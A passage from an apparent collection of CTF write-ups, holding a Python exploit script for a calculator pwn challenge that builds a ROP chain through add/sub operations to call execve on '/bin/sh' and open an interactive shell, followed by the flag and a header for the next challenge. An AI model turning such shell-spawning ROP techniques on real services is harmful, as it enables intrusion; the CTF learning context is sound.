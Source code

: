 ```python
    sendlineafter('y: ', str(y))

sendlineafter('Expected number of calculations: ', '100')

# padding for free(0)
for i in range(0, 18):
    sub(40, 40)

# pop rdx ; pop rsi ; ret
add(4422000, 313)
sub(40, 40)
sub(40, 40)
sub(40, 40)
sub(40, 40)
sub(40, 40)
# pop r12 ; ret
add(4195000, 475)
sub(40, 40)
# syscall
add(4195000, 464)
sub(40, 40)
# pop rax ; ret
add(4512000, 564)
sub(40, 40)
# 0x3b
sub(100, 41)
sub(40, 40)
# mov rdi, rsp ; call r12
add(4793000, 448)
sub(40, 40)
# /bin/sh\0
add(1852400000, 175)
add(6845000, 231)

sendlineafter('=> ', '5')
interactive()
```

## Flag

Flag: `BKPCTF{what_is_2015_minus_7547}`

# DEFCON Quals 2019 Speedrun1

## Information

- Category: Pwn
- Points: 5
